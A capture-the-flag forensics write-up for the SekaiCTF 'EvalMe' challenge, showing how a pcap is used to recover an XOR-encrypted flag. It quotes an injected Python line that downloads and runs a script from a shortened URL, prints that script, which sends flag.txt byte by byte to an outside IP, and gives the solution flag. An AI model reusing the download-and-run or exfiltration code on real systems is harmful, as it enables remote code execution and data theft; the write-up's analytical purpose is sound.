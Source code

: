 # EvalMe - Forensics - SekaiCTF
## Author: Guesslemonger

### Problem
I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate? It came attached with a `capture.pcapng`.

### Challenge Description
Connecting to the `chals.sekai.team` server required the user to solve 100 simple math problems under a given time. This was solved using the `evalMe.py` script.

Following its solve, there was a curl command given at the end:
```python
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2
```

### Extract.sh
Downloading the extract.sh to our VM (`curl -sL https://shorturl.at/fgjvU -o extract.sh`), we get the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'

# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }

XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

### XOR Encryption
This script reads the content of `flag.txt`, encrypts it using XOR encryption with a predefined key, and then sends the encrypted data, byte by byte, to a remote server using cURL. The server URL and endpoint seem to be `http://35.196.65.151:30899/`, and the data is likely being sent in a structured JSON format as part of the POST request.

### pcap Analysis
This is where the pcap file comes in. It contains the data sent via that POST command. So, filtering by: `ip.dst ==35.196.65.151 && http.request.method == POST`, we get 51 packets that contain the bytes that were sent as seen below:


![alt text]([https://github.com/triciadang/CTF/SekaiCTF/evalMe/evalMeScreenshot.jpg?raw=true])

We exported all of the bytes into a txt file using Wireshark.

### Decryption of the Data
We then created a script that reversed the encryption for each byte:

```
#!/bin/bash
KEY='s3k@1_v3ry_w0w'

Asc() {
    printf '%d' "'$1"
}

XORDecrypt() {
    local key="$1" DataIn="$2"
    local bytes=($DataIn)

    for (( i = 0; i < ${#bytes[@]}; i++ )); do
        val3=$(printf '%d' "0x${bytes[i]}")

        # Adjusted key indexing for both uppercase and lowercase characters
        val2=$( Asc "${key:$(( i % ${#key} )):1}" )

        val1=$(( val3 ^ val2 ))

        DataOut+=$(printf '\\x%02x' "$val1")
    done

    echo -ne "$DataOut"
}

EncryptedData=$(<encrypted.txt)
DecryptedData=$(XORDecrypt "$KEY" "$EncryptedData")

echo -ne "$DecryptedData"
```
Running it against the exported bytes, we retrieve the flag: `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`
